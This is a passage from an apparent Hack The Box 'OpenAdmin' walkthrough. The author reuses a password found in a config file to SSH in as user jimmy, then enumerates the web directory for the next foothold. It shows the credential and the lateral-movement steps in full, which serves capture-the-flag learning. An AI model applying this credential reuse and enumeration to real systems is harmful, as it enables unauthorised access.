 ```
    'context_color' => '#D3DBFF',
  ),
);

?>www-data@openadmin:/opt/ona/www$ 
```
so i used this password `n1nj4W4rri0R!` to login to ssh for jummy user

```
root@WebServer:~/Documents/HackTheBox/openadmin# ssh jimmy@10.10.10.171
jimmy@10.10.10.171's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Feb 14 13:46:22 UTC 2020

  System load:  0.37              Processes:             438
  Usage of /:   50.1% of 7.81GB   Users logged in:       2
  Memory usage: 33%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

41 packages can be updated.
12 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Feb 14 13:34:15 2020 from 10.10.15.188
jimmy@openadmin:~$ 
```
-----------------------------------------------------------------------------------------------------------------------------------------------------
### [](#header-3)3- Post Exploitation to - USER 2 (joanna)
again with some emumaration i found folder called internal and only jimmy can see it

```
jimmy@openadmin:/var/www$ ls -la
total 16
drwxr-xr-x  4 root     root     4096 Nov 22 18:15 .
drwxr-xr-x 14 root     root     4096 Nov 21 14:08 ..
drwxr-xr-x  6 www-data www-data 4096 Feb 14 13:31 html
drwxrwx---  2 jimmy    internal 4096 Feb 14 13:34 internal
lrwxrwxrwx  1 www-data www-data   12 Nov 21 16:07 ona -> /opt/ona/www
jimmy@openadmin:/var/www/internal$ ls -la
total 20
drwxrwx--- 2 jimmy internal 4096 Feb 14 13:49 .
drwxr-xr-x 4 root  root     4096 Nov 22 18:15 ..
-rwxrwxr-x 1 jimmy internal 3229 Nov 22 23:24 index.php
-rwxrwxr-x 1 jimmy internal  185 Nov 23 16:37 logout.php
-rwxrwxr-x 1 jimmy internal  339 Nov 23 17:40 main.php
jimmy@openadmin:/var/www/internal$ 

```
there is 3 php that server to some services.
then i try to look to any other ports that could serve this application by using `netstat -a' command